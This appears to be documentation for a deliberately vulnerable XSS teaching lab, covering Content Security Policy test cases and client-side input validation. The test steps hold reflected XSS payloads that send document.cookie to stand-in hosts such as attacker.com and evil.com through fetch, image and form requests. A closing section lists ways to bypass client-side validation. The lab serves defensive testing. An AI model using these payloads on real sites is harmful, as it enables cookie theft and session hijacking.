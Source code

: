 ### Test 8: CSP Post-Exploitation Prevention
```
Test Block Data Exfiltration:
1. Go to /reflected?csp=block-exfiltration&input=<script>fetch('https://attacker.com?cookie='+document.cookie)</script>
2. Expected: Script executes (alert shows) but fetch is blocked by connect-src 'none'
3. Check browser console: "Refused to connect to 'https://attacker.com' because it violates the following Content Security Policy directive: 'connect-src 'none''"

Test Allow Self-Origin Only:
1. Go to /reflected?csp=allow-self-only&input=<script>fetch('https://evil.com?data=stolen')</script>
2. Expected: Fetch to external domain blocked, but fetch to same origin works
3. Try: <script>fetch('/reflected?test=1')</script> - This should work

Test Block All Requests:
1. Go to /reflected?csp=block-requests&input=<script>new Image().src='https://attacker.com?cookie='+document.cookie</script>
2. Expected: Image request blocked by connect-src 'none'
3. Console shows CSP violation

Test Block Form Submissions:
1. Go to /reflected?csp=block-forms&input=<form action="https://attacker.com"><input name="data" value="stolen"></form><script>document.forms[0].submit()</script>
2. Expected: Form submission to external domain blocked by form-action 'none'
3. Console shows CSP violation
```

## Client-Side Validation Details

### Visual Feedback
When client-side validation detects dangerous characters:
1. **Shake Animation**: Input field shakes left-right for 0.5 seconds
2. **Red Styling**: Input and fieldset backgrounds turn red (#ffebee)
3. **Red Border**: 2px solid red border (#f44336)
4. **DOM Error Message**: Red box with warning icon appears below input
5. **Auto-Clear**: Error styling fades after 3 seconds (message persists until input is corrected)

### Error Message Format
```
⚠️ Client-Side Validation: Input contains dangerous characters (< or >)
```

### Bypass Methods

1. **Disable JavaScript**: Turn off JS in browser settings
2. **Disable the Checkbox**: Uncheck "Client-Side Validation" before submitting
3. **Intercept Request**: Use browser DevTools to modify request
4. **Direct URL**: Navigate directly to URL with payload
5. **Browser Console**: Call form.submit() or modify validation functions
6. **Curl/Postman**: Send request without browser
